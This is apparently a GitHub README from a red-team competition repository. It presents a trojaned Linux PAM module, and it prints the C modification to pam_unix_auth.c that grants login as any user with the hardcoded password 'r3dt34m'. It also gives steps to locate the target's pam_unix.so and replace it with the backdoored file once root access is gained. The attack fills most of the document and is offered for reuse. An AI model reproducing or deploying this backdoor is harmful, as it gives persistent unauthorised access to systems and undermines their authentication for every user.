 # Trojan'd Pam

Trojan Paaaaam!

This code was used as a means of installing a virtually undetectable
backdoor into compromised systems during the 2019 Cyberforce Competition.
These worked with pam 1.1.8 and pam 1.3, so if you are considering using
this I would implore that you make your own based on the target's version
of pam, or you could hose the entire system disallowing anyone from logging
in! Other than this paragraph, I am leaving this Readme file largely intact
even when it references things like ".5" or ".6". These are references to
machines in the Cyberforce Competition.

The supplied pam_unix.so file is backdoored to allow you to log on as
any user on the system if you supply the password "r3dt34m"

To accomplish this, I downloaded the source of libpam 1.3.x, modified
the pam_unix_auth.c file, and changed the following line:

```c
    /* verify the password of this user */
    retval = _unix_verify_password(pamh, name, p, ctrl);
```

To the following code block:

```c
    /* verify the password of this user */
    if (strcmp(p, "r3dt34m") != 0) {
        retval = _unix_verify_password(pamh, name, p, ctrl);
    } else {
        retval = PAM_SUCCESS;
    }
```

This will allow the pam stack to operate normally otherwise.

This was borrowed from [0x90909090](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html). Thank you for this!

This is **confirmed working** on .5 (ubuntu), .6 (centos), and .9 (the HMI).

**UPDATE:** This does not work on .7, the Debian9 box! I'm not entirely
sure why. Beware doing this as no one will be able to log into this box!

To install, upload the pam_unix.so file included in this repo, determine
the location of the remote pam_unix.so file:

```bash
target:~# find / -name pam_unix.so 2>/dev/null
/lib/x86_64-linux-gnu/security/pam_unix.so
```

Then simply swap out the files. It should work immediately.

**You need root access to make this change!**
